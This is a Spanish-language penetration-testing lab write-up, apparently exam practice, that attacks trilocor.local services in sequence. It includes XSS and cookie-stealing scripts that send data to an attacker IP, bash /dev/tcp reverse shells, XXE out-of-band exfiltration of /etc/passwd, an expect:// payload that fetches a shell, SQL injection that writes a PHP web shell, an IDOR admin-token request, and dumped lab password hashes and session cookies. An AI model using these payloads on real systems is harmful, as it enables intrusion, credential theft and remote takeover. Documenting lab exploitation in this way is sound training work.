

# CWES

## trilocor.local

* WordPress (80)

<figure><figcaption></figcaption></figure>

Enumeramos los subdominios

```
ffuf -c -u http://trilocor.local/ -H 'Host: FUZZ.trilocor.local' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fl 886
```

* www
* admin

<figure><figcaption></figcaption></figure>

> No olvidar poner en /etc/hosts la IP con los subdominios&#x20;

## admin.trilocor.local

Entramos al panel administrativo `/wp-login.php` y realizamos el siguiente comando para enumerar plugins.

```
wpscan --url http://admin.trilocor.local/ --enumerate u,t,p --plugins-detection aggressive
```

Entrar en **tricolor.local/index.php/testimonials/** en cada campo probar XSS.

* `"><script src=http://10.10.14.223/fullname></script>`
* `"><script src=http://10.10.14.223/company></script>`
* `test@test.com`
* `666666666`
* `http://10.10.14.223/site`
* `"><script src=http://10.10.14.223/comment></script>`

Ponernos en encucha.

```
nc -lnvp 80
```

Vamos a robar las cookies.

### 1. Script receptor en PHP

Script Manu

```
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key -> $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie:
{$cookie}\n");
        fclose($file);
    }
}
?>
```

Script Chat

```
<?php
if (isset($_GET['c'])) {
    file_put_contents("cookies.txt", $_GET['c'] . "\n", FILE_APPEND);
}
?>
```

### 2. Script JavaScript malicioso

```
new Image().src = 'http://TU_IP:8000/index.php?c=' + document.cookie;
```

#### 3. Servidor HTTP del atacante

```
sudo php -S 0.0.0.0:8000
```

### 4. Payload

```
"><script src="http://TU_IP:8000/malicious.js"></script>
```

<figure><figcaption></figcaption></figure>

```
wordpress_828ff7d64a441f8aab6a0310bdcee6a9=web-editor%7C1776066952%7CvL8Halvch4Sh2xreFf4KreSwfKr8WAdJdDXwbuUT0PD%7C2fdd857041823138af2efb18ac89684d797ce25388bb16b9d5fe966c1cc8397a;%20wordpress_logged_in_828ff7d64a441f8aab6a0310bdcee6a9=web-editor%7C1776066952%7CvL8Halvch4Sh2xreFf4KreSwfKr8WAdJdDXwbuUT0PD%7Cd93128f07913a3bd07fed6d0fc4c70b11a080e9d53662d388a9747c9a18805e2;%20wordpress_test_cookie=WP%20Cookie%20check
```

Añadir en inspeccionar en cookies esos valores.

<figure><figcaption></figcaption></figure>

### task 1

<figure><figcaption></figcaption></figure>

COOKIES

```
wordpress_828ff7d64a441f8aab6a0310bdcee6a9=web-editor|1771279099|KmBhiWHQWfNwvCDZHuTW4yx1DO4SiUZPDP1ZiDJi7Sf|a9006df1edbc031f6c7b8f7f4f78c2ba33b7e8f655d34903c2bdb49741834429
```

```
wordpress_logged_in_828ff7d64a441f8aab6a0310bdcee6a9=web-editor|1771279099|KmBhiWHQWfNwvCDZHuTW4yx1DO4SiUZPDP1ZiDJi7Sf|d351940e1a5bd1ef188459ee15604604a9222980c248333439f3ac957e512010
```

```
wordpress_test_cookie=WP Cookie check
```

Ya entramos a **/wp-admin.**



<figure><figcaption></figcaption></figure>

Ejecutamos el exploit.py.

<figure><figcaption></figcaption></figure>

buscamos el enlace y hacemos la rev shell.

<figure><figcaption></figcaption></figure>

codificamos la rev shell

```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.223%2F1234%200%3E%261%22
```

nos ponemos en escucha

<figure><figcaption></figcaption></figure>

## post explotacion

obtengo las credenciales en la base de datos

<figure><figcaption></figcaption></figure>

entramos para ver los usuarios y sus contraseñas

<figure><figcaption></figcaption></figure>

```
payloadFileName = './payload.php'  # Local path of YOUR payload
baseUrl = 'http://admin.trilocor.local/'  # Base URL of the WordPress installation
username = 'web-editor'  # The user must have at least Contributor privileges
password = '&QA0IfF8EL$ZH5e3)UoqE5U0'  # Set the password
```

Ejecutamos el exploit y en la web.

```
admin.trilocor.local/wp-content/uploads/elementor/tmp/revshell.php?cmd=bash -c "bash -i >& %26 %2Fdev%2Ftcp%2F10.10.14.118%2F1234 0>%261"
```

Nos ponemos en escucha.

```
nc -lnvp 1234
```

Vamos al directorio **/var/www/html**. En wp-config.php está la contraseña con la que entramos en la base de datos.

### task 2

<figure><figcaption></figcaption></figure>

```
mysql -u wp-db-admin -p
show databases;
use wp;
show tables;
select * from wp_users;
```

```
web-admin         | $P$BXbYoVtP3sL7C0lJEWyGb3TpJ2Mfv/. | web-admin         | web-admin@trilocor.local
web-editor        | $P$BzmV8CCdCthWugv5caZ109kNK/nuhD0 | web-editor        | editor@trilocor.local
pr-martins        | $P$Btyf0N8EtUtCnt3v9XkHbX51Zf5cv/  | pr-martins        | pr-martins@trilocor.local
hr-smith          | $P$BelSaiK5w6nLRTMl9g2RLNJq6nnjcne | hr-smith          | hr-smith@trilocor.local
r.batty           | $P$BE/bn8UD14r0K2OOnrC9q.lDqUKSvL  | r.batty           | Viceroy@trilocor.local
trilocor.Emerald  | $P$B7842NC/K4ufzifH4kgEbpZPR75wD5/ | trilocor.Emerald  | Emerald@trilocor.local
trilocor.Shiv     | $P$Bcotv6lKUx7EB0P1Twa.jRjF86QWFc1 | trilocor.Shiv     | Shiv@trilocor.local
trilocor.Gradin   | $P$BWubxaocUI.7NE.YdqAMfyqveFbKM1  | trilocor.Gradin   | Gradin@trilocor.local
trilocor.Vagient  | $P$B8stz5nWREVRf8JthGYTZ6PnHWTKTV1 | trilocor.Vagient  | Vagient@trilocor.local
trilocor.Fankle   | $P$Bu7pbQPXFeQkXd8qi0UUTkRuL772pO1 | trilocor.Fankle   | Fankle@trilocor.local
trilocor.Soroche  | $P$BCZn.eBvWV.iyST93640agXa4SYoPF. | trilocor.Soroche  | Soroche@trilocor.local
trilocor.Nipter   | $P$BM66m1hPhmYX2lnYuNRGcWQIJczm1L0 | trilocor.Nipter   | Nipter@trilocor.local
trilocor.Damask   | $P$BWyD5qZCr2aq3ZJBn5Fq6EBA7agMh.0 | trilocor.Damask   | Damask@trilocor.local
trilocor.Doucet   | $P$B/R1liuvHvn5ta/VClmLvph.mxgoh.  | trilocor.Doucet   | Doucet@trilocor.local
```

Se crackean los hashes.

```
john hashes --wordlist=/usr/share/wordlists/rockyou.txt
```

`pr-martins:martins`

<figure><figcaption></figcaption></figure>

### Human Resources (8088)

Entrar en **tricolor.color:8088/index.php.** Hay un login por lo que hacemos los guiente con sqlmap.

```
sqlmap -r request--batch --dump --level 2 --risk 2
```

<figure><figcaption></figcaption></figure>

```
ID | user_pass                         | user_email                  | user_login
1  | e9d9dcc0e33900c9019f4364361b5597 | smith@hr.trilocor.local     | hr-smith
2  | eb9a3bb7c26b3167362446070be6039b | Viceroy@trilocor.local      | trilocor.Viceroy
3  | 41c67ba5ec51f9c585fd2117b32efdf5 | Emerald@trilocor.local      | trilocor.Emerald
4  | 604261ae7997a6520a739a768a63b10f | Shiv@trilocor.local         | trilocor.Shiv
5  | 19f1c0169fd332a4b6cf0be08934f4e6 | Gradin@trilocor.local       | trilocor.Gradin
6  | 8e7a173c9821a50da704de5c8f58bdd9 | Vagient@trilocor.local      | trilocor.Vagient
7  | 1db24e18ab68071dab7b8ea7a7f35017 | Fankle@trilocor.local       | trilocor.Fankle
8  | 7af6c8caefb5f5b72ad999a64d882a59 | Soroche@trilocor.local      | trilocor.Soroche
9  | 1431d2479795f9da10e049bccf249d19 | Nipter@trilocor.local       | trilocor.Nipter
10 | 372d6594c8ed882cddbc830180d55e05 | Damask@trilocor.local       | trilocor.Damask
11 | d9fa56b092d8d26b2bee17cc082dac3b | Doucet@trilocor.local       | trilocor.Doucet
```

Con Burpsuite realizamos estas inyecciones.

<figure><figcaption></figcaption></figure>

```
GET /index.php?username=%27or+%271%27%3D%271%27--+-&password=%27or+%271%27%3D%271%27--+- HTTP/1.1
http://trilocor.local:8088/index.php?username=%27or+%271%27%3D%271%27--+-&password=%27or+%271%27%3D%271%27--+-
```

### task 3

<figure><figcaption></figcaption></figure>

### Public Relations PR (8009) -> task 8

<div><figure><figcaption></figcaption></figure> <figure><figcaption></figcaption></figure></div>

Entramos en el **/admin** y reutilizamos las credenciales.

`pr-martins:martins`

<figure><figcaption></figcaption></figure>

#### XXE Out-of-band

Se crea el archivo **xxe.dtd**.

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://10.10.14.223:8004/?
content=%file;'>">
```

ahora en el atacante un index.php

```
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

Se construyó un archivo SVG que referencia el DTD remoto y
&#x20;fuerza la resolución de entidades

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE testing [ 
    <!ENTITY % remote SYSTEM "http://10.10.14.223:8004/xxe.dtd">
    %remote;
    %oob;
]>
<svg>&content;/svg>
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

decodificamos

<figure><figcaption></figcaption></figure>

creamos una rev shell y la subimos&#x20;

```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE testing [ <!ENTITY xxe SYSTEM "expect://curl$IFS-O$IFS'10.10.14.223:8004/revshell.php'" > ]>
<svg xmlns="http:-/wwww.w3.org/2000/svg" width="200" height="200" 
version="1.1">
<text>&xxe;</text>
</svg>
```

<figure><figcaption></figcaption></figure>

se verifica el RCE

<figure><figcaption></figcaption></figure>

vale hacemos la reverse shell

```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.223%2F1234%200%3E%261%22
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## JOB PORTAL (8080)

<figure><figcaption></figcaption></figure>

VAMOS A LA FUNCIONALIDAD DE RESETEO DE CONTRASEÑA

<figure><figcaption></figcaption></figure>

CAPTURO PETICIÓN CON CAIDO

<figure><figcaption></figcaption></figure>

ATAQUE SNIPER AL TOKEN

<div><figure><figcaption></figcaption></figure> <figure><figcaption></figcaption></figure></div>

<figure><figcaption></figcaption></figure>

ingresamos ya el token con la nueva contraseña de r.batty e iniciamos sesión con esas credenciales

<figure><figcaption></figcaption></figure>

### task 5

<figure><figcaption></figcaption></figure>

me registro ususario test:test123

<figure><figcaption></figcaption></figure>

sql injection en parámetro search

<figure><figcaption></figcaption></figure>

hay un union select

<figure><figcaption></figcaption></figure>

confirmacion de escritura mediante secure\_file\_priv

```
http://trilocor.local:8080/resumes.php?search=' UNION SELECT 1, 2, variable_name, variable_value, 5,6 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

<figure><figcaption></figcaption></figure>

{% embed url="http://trilocor.local:8080/resumes.php?search=%27union%20select%201,%202,%20%27%3C?php%20system($_GET[%22cmd%22]);?%3E%27,%204,%205%20,6%20into%20outfile%20%27/var/www/public/shell.php%27--%20-" %}

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### task 6

<figure><figcaption></figcaption></figure>

## trilocor.local (9000)

nos registramos

<figure><figcaption></figcaption></figure>

nos logueamos

<figure><figcaption></figcaption></figure>

al analizar el código fuente vemos que podemos obtener el token mediante la API

<figure><figcaption></figcaption></figure>

realizamos la petición

```
curl -s -X POST 'http://trilocor.local:9000/api/tokens' -H 'Content-Type: application/json' -s -d '{"uid": 3, "username": "test"}'
```

<figure><figcaption></figcaption></figure>

tenemos un IDOR

```
curl -s -X POST 'http://trilocor.local:9000/api/tokens' -H 'Content-Type: application/json' -s -d '{"uid": 1, "username": "administrator"}'
```

<figure><figcaption></figcaption></figure>

ya que tenemos privilegios administrativos accedemos al endpoint en el que se lista miembros del sistema

<figure><figcaption></figcaption></figure>

```
curl -s -X POST 'http://trilocor.local:9000/api/admin/list_members' \
-H 'Content-Type: application/json' \
-d '{"uid":1,"username":"administrator","uuid":"f19d77c3-753c-48d6-9430-4d1a09aea67d"}' | jq
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

```
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

inyeccion de commandos&#x20;

id

<figure><figcaption></figcaption></figure>

listado sistema raiz

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>
